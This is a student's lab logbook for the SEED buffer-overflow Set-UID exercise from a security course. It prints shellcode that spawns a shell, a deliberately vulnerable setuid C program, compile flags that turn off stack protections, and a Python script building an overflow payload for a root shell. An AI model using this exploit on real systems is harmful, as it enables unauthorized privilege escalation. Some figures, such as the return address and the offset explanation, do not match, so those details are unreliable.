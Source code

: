 # LOGBOOK5

This document pretends to document the work that was  during week 5 of the FSI course - [link to guide](https://seedsecuritylabs.org/Labs_20.04/Files/Buffer_Overflow_Setuid/Buffer_Overflow_Setuid.pdf).

## Setting up: 

To work on this guide, we will need to change some settings regarding our shell. There are some countermeasures against buffer overflow attacks that we will ignore, by disabling address space randomization and configuring /bin/sh by linking it to another shell without buffer overflow countermeasures. StackGuard and non-executable stack will be turned off during compilation.

## Task 1

This task's aim is to show how shell-code injections work and what their effects are.

We are given 32 and 64-bit shellcode, that when compiled via makefile, generate two binaries, a32.out and a64.out.

If we run them, we will create a new shell inside our terminal, that will allow us to input commands.

``` c
#include <stdlib.h>
#include <stdio.h>
#include <string.h>


const char shellcode[] =
#if __x86_64__
  "\x48\x31\xd2\x52\x48\xb8\x2f\x62\x69\x6e"
  "\x2f\x2f\x73\x68\x50\x48\x89\xe7\x52\x57"
  "\x48\x89\xe6\x48\x31\xc0\xb0\x3b\x0f\x05"
#else
  "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f"
  "\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x31"
  "\xd2\x31\xc0\xb0\x0b\xcd\x80"
#endif
;

int main(int argc, char **argv)
{
   char code[500];

   strcpy(code, shellcode);
   int (*func)() = (int(*)())code;

   func();
   return 1;
}
```

![Task1](images/LOGBOOK5/git51.png)

## Task 2

The purpose of Task 2 is to understand the vulnerable program stack.c and how to exploit it to gain root privilege.

Here is its' source code:

```c
#include <stdlib.h>
#include <stdio.h>
#include <string.h>
/* Changing this size will change the layout of the stack.
* Instructors can change this value each year, so students
* won’t be able to use the solutions from the past. */
#ifndef BUF_SIZE
#define BUF_SIZE 100
#endif

int bof(char *str){
    char buffer[BUF_SIZE];
    /* The following statement has a buffer overflow problem */
    strcpy(buffer, str);
    return 1;
}

int main(int argc, char **argv){
    char str[517];
    FILE *badfile;

    badfile = fopen("badfile", "r");
    fread(str, sizeof(char), 517, badfile);
    bof(str);
    printf("Returned Properly\n");
    return 1;
}
```

The program above presents a buffer overflow vulnerability. It starts by retrieving input from a file named "badfile" and then transfers this input to another buffer within the bof() function. The original input can extend up to 517 bytes, whereas the bof() buffer is constrained to BUF SIZE which is not enough to accommodate the entire 517 bytes. strcpy() has no boundary checks, making it susceptible to buffer overflows. This program also possesses elevated privileges as a Set-UID program, creating a scenario where an ordinary user, if capable of exploiting this buffer overflow vulnerability, could potentially attain root-level access.

We compile it and turn off StackGuard and the non-executable stack protections using the "-fno-stack-protector" and "-z execstack" options. We then make it a root-owned Set-UID program, by changing its' permissions.

```sh
$ gcc -DBUF_SIZE=100 -m32 -o stack -z execstack -fno-stack-protector stack.c
$ sudo chown root stack
$ sudo chmod 4755 stack
```

## Task 3

Our objective in this task is to exploit the buffer-overflow vulnerability in the target program. To achieve this, we'll use a debugger-based approach to pinpoint the vulnerability, using gdb to debug the stack-L1-dbg.

![Task3](images/LOGBOOK5/git52.png)

```py
#!/usr/bin/python3
import sys
shellcode= (
    "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f"
  "\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x31"
  "\xd2\x31\xc0\xb0\x0b\xcd\x80"
).encode(’latin-1’)
# Fill the content with NOP’s
content = bytearray(0x90 for i in range(517))

# Put the shellcode somewhere in the payload
start = 490
content[start:start + len(shellcode)] = shellcode

# Decide the return address value
# and put it somewhere in the payload

ret = 0xFFFFCB96 #if 32 bits senão 0x48
offset = 112 
L = 4 # Use 4 for 32-bit address and 8 for 64-bit address
content[offset:offset + L] = (ret).to_bytes(L,byteorder=’little’)

# Write the content to a file
with open(’badfile’, ’wb’) as f:
f.write(content)
```

We initially set our starting point to 490 because the buffer size is 517 bytes, and our shellcode is 27 bytes in size, leaving us with 490 bytes for the buffer overflow. Our "ret" value is crucial for redirecting the program's execution flow to our shellcode. We have information that the value of "buf" is 0xffffc9fc. By adding 490 to 0xffffc9fc, we obtain our return address, which happens to be 0xffffcbe6.

The "offset" represents the position where we inject our return address to redirect the program's flow towards our shellcode. It's important to note that the address of the "ebp" is 0xffffca68, and since the buffer address is 0xffffc9fc, the "ebp" is located 108 bytes after "ebp." However, an additional 4 bytes must be accounted for, as the "ebp" size is 4 bytes.

To validate our setup, we need to open a terminal where both "exploit.py" and "stack_l1" are located. If we successfully obtain root shell access, our configuration is correct.
